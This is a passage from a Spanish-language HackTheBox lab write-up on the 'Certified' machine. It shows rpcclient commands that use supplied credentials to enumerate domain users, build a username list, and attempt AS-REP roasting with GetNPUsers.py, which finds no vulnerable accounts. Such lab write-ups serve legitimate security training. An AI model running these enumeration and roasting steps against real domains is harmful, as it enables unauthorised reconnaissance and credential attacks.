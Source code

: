 Como hackthebox nos da unas credenciales por defecto, las vamos a usar para enumerar usuarios del dominio y recolectar información:

```bash
rpcclient -U "judith.mader%judith09" 10.10.11.41 -c "enumdomusers"
```

![image](../zimages/Pasted_image_20250318144851.png)

Listado de usuarios para diccionario:

```bash
rpcclient -U "judith.mader%judith09" 10.10.11.41 -c "enumdomusers" | grep -oP '\[.*?\]' | grep -v '0x' | tr -d '[]' | tail -n 6 > users.txt
```

![image](../zimages/Pasted_image_20250318151133.png)

Ese listado lo podemos utilizar para ver si alguno de los usuarios es vulnerable a un ataque ASREPRoast:

```bash
GetNPUsers.py -no-pass -usersfile users.txt certified.htb/
```

Pero vemos que ninguno tiene la opción `UF_DONT_REQUIRE_PREAUTH` activada, por lo que no son vulnerables:

![image](../zimages/Pasted_image_20250324003153.png)

